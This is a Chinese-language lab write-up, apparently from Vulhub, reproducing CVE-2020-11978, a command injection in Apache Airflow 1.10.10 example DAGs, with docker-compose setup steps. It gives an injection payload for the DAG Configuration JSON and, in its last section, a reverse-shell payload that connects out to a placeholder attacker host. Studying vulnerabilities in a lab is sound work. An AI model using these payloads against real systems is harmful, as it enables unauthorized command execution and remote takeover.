





Apache Airflow 示例DAG中的命令注入 CVE-2020-11978¶
漏洞描述¶
Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。
在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。
由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。
参考链接：
- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978
环境搭建¶
Vulhub依次执行如下命令启动Apache Airflow 1.10.10：
#初始化数据库
docker-compose run airflow-init
#启动服务
docker-compose up -d
服务器启动后，访问http://your-ip:8080/admin/airflow/login即可查看到登录页面。
漏洞复现¶
访问http://your-ip:8080/admin/airflow/login进入airflow管理端，将example_trigger_target_dag前面的Off改为On：

再点击执行按钮，在Configuration JSON中输入：{"message":"'\";touch /tmp/airflow_dag_success;#"}，再点Trigger执行dag：

等几秒可以看到执行成功：

到CeleryWorker容器中进行查看：
docker-compose exec airflow-worker ls -l /tmp
可以看到touch /tmp/airflow_dag_success成功被执行：

反弹shell¶
相同方法执行反弹shell：
{"message":"'\";bash -i >& /dev/tcp/your-vps-ip/9999 0>&1;#"}
